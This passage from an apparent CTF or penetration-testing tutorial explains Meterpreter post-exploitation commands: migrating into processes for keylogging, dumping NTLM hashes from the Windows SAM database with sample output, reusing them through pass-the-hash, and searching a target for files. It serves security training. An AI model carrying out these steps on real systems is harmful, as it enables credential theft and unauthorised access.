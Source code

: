 ```bash
 1388  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```

### Migrate
Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.

To migrate to any process, you need to type the migrate command followed by the PID of the desired target process. The example below shows Meterpreter migrating to process ID 716. 

**The migrate command**
```bash
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
meterpreter >
```

Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.

### Hashdump
The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

**The hashdump command**
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >
```

While it is not mathematically possible to "crack" these hashes, you may still discover the cleartext password using online NTLM databases or a rainbow table attack. These hashes can also be used in Pass-the-Hash attacks to authenticate to other systems that these users can access the same network.

### Search
The search command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, while in actual penetration testing engagements, you may need to search for user-generated files or configuration files that may contain password or account information.

**The search command**
```bash
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```
